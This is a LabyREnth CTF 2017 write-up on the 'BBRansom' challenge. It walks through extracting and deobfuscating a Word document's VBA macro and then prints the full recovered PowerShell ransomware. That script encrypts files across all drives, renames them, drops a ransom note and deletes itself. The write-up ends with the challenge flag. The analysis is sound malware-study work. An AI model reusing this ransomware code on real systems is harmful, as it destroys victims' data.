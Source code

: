 ## LabyREnth CTF 2017
# Threat 4 : BBRansom

We are provided with a Office Word Document

Running OfficeMalScanner against it will retrieve its VBA macros

The interesting code is in "UjRtRQl" file but it is obfuscated

### De-obfuscating the VBA Macro

I used an old script of mine, [DocumentVariableExtractor.vbs](DocumentVariableExtractor.vbs) to extract the variable "ygsbFH"

This variable contains the dictionary that is used to deobfuscate the rest of the code.

```
cscript DocumentVariableExtractor.vbs <FULL PATH to bbransom.doc> ygsbFH > dictionary
```

Trim off the header in the "dictionary" output file to prepare it for use.

[deobfus_UjRtRQl.vbs](deobfus_UjRtRQl.vbs) contains the redacted version of the vbs script.  
This script basically writes out a Powershell script and executes it.  
I redacted the powershell stuffs out to better illustrate what the vbs script is actually doing.

[soln_01_extract_panlaby.php](soln_01_extract_panlaby.php) will decode the powershell and output it to a file "panlaby.ps1"

### De-obfuscating the Powershell script

panlaby.ps1 has obfuscated variable names.

I deobfuscated and renamed them to be more meaningful

```ps1
$UTF8 = [System.Text.Encoding]::UTF8
$b64str = "DwImSAI1CgMYSQQ+GhoO"
$key = $UTF8.GetBytes("For great justice")
$b64str = $UTF8.GetString([System.Convert]::FromBase64String($b64str))
$msg = $UTF8.GetBytes($b64str)
$goblinKingString = 
$(
    for ($i = 0; $i -lt $msg.length; ) {
        for ($j = 0; $j -lt $key.length; $j++) {
            $msg[$i] -bxor $key[$j]
            $i++
            if ($i -ge $msg.Length) {
                $j = $key.length
            }
        }
    }
)
$goblinKingString = $UTF8.GetString("ImTheGoblinKing")
$keyString = "OjsjcvRgahjsHbsbbcghhdUjjcRtgWhscJhsdUjsbndRgj"
$random24Chars = ([Char[]](GeT-RaNdom -Input $(48..57 + 65..90 + 97..122) -Count 24)) -join ""
[byte[]]$goblinKingBytes=[system.Text.Encoding]::Unicode.GetBytes($goblinKingString)
$keyBytes = [Text.Encoding]::UTF8.GetBytes($keyString)
$Cipher = neW-Object System.Security.Cryptography.RijndaelManaged
$Cipher.Key = (new-Object Security.Cryptography.Rfc2898DeriveBytes $goblinKingString, $keyBytes, 5).GetBytes(32)
$Cipher.IV = (new-Object Security.Cryptography.SHA1Managed).ComputeHash([Text.Encoding]::UTF8.GetBytes("alle") )[0..15]
$Cipher.Padding="Zeros"
$Cipher.Mode="CBC"
$GottenDrives= gdr|where {$_.Free}|Sort-ObjeCt -Descending
foreach($curDrive in $GottenDrives){
    gci $curDrive.root -Recurse -Include "*.urbb","*.toby"|%{
    try{
        $curFile = New-Object System.IO.BinaryReader([System.IO.File]::Open($_, [System.IO.FileMode]::Open, [System.IO.FileAccess]::ReadWrite, [System.IO.FileShare]::Read),[System.Text.Encoding]::ASCII)
        if ($curFile.BaseStream.Length -lt 2048){return}
        else {$readSize = 2048}
        $fileBytes = $curFile.ReadBytes($readSize)
        $curFile.Close()
        $Encryptor = $Cipher.CreateEncryptor()
        $MemoryStream = new-Object IO.MemoryStream
        $CryptoStream = new-Object Security.Cryptography.CryptoStream $MemoryStream,$Encryptor,"Write"
        $CryptoStream.Write($fileBytes, 0,$fileBytes.Length)
        $CryptoStream.Close()
        $MemoryStream.Close()
        $Encryptor.Clear()
        $EncryptedOutput = $MemoryStream.ToArray()
        $OutputBinaryWriter = New-Object System.IO.BinaryWriter([System.IO.File]::Open($_, [System.IO.FileMode]::Open, [System.IO.FileAccess]::ReadWrite, [System.IO.FileShare]::Read),[System.Text.Encoding]::ASCII)
        $OutputBinaryWriter.Write($EncryptedOutput,0,$EncryptedOutput.Length)
        $OutputBinaryWriter.Close()
        $TheNewName=$_.Name+'.bbmine'
        ren -Path $_.FullName -NewName $TheNewName -Force
        $InstructionFilePath = $_.Directory.ToString() + '\_HELP_instructions.html'
        $HTMLRansomContent = [System.Text.Encoding]::UTF8.GetString("<h1>I am the goblin king!</h1><br>All ur bbz  are belong to us. You have no chance to survive make your time.");
        New-Item -Path $InstructionFilePath -ItemType file -Value $HTMLRansomContent
        Add-Content -Path $InstructionFilePath -Value ("<h1>CLIENT ID: $random24Chars <br></h1>")
        Add-Content -Path $InstructionFilePath -Value ([System.Text.Encoding]::UTF8.GetString("<h2>Campaign ID: Fi48W1UTAwMSQVkQRk1aVAB/DUQRVxQBBxdGCBcSEFtUB3RXEEJXFFxRTERbQhdHWgVcdgpKQ18TAVRDEwtNFkRfVwM7 <br></h2>"));
        Add-Content -Path $InstructionFilePath -Value ([System.Text.Encoding]::UTF8.GetString("<h3>Version Key: For great justice <br></h3>"));
    }
    catch{}
    }
}
function YHBFDXGFGHGJHDRSD() {
    $fhYThncwwIjfDFGHsf = (Get-VaRiable MyInvocation -Scope 1).Value
    $YHnbbfgcgfcEThhYH =  $fhYThncwwIjfDFGHsf.MyCommand.Path
    Remove-ITem $YHnbbfgcgfcEThhYH
}
YHBFDXGFGHGJHDRSD
```

### Getting the flag

The Powershell script is basically a ransomware
- Initialize a Cipher using several strings as Key and IV
- Loops through all directories, looking for files ending with ".urbb" or ".toby" and encrypts them using the Cipher
- Once a files are encrypted, display a ransom message with the following values
    - 24 character random ClientID
    - Campaign ID : Fi48W1UTAwMSQVkQRk1aVAB/DUQRVxQBBxdGCBcSEFtUB3RXEEJXFFxRTERbQhdHWgVcdgpKQ18TAVRDEwtNFkRfVwM7
    - Version Key: "For great justice"

I was stuck here for some time.  
At first, I thought I needed to decrypt the Campaign ID with the Cipher Instance  
But the solution is much simpler
- Perform a Xor between the Base64-decoded Campaign ID and the Version Key will give the flag

[soln_02_panlaby.php](soln_02_panlaby.php) will do just that and display the flag

![theflag](img/01.png)

The flag is **PAN{2afbfa3e5937e9b610fdfcfbbad27b28bb0f908d17d33f90e8c8ad573a8e064f}**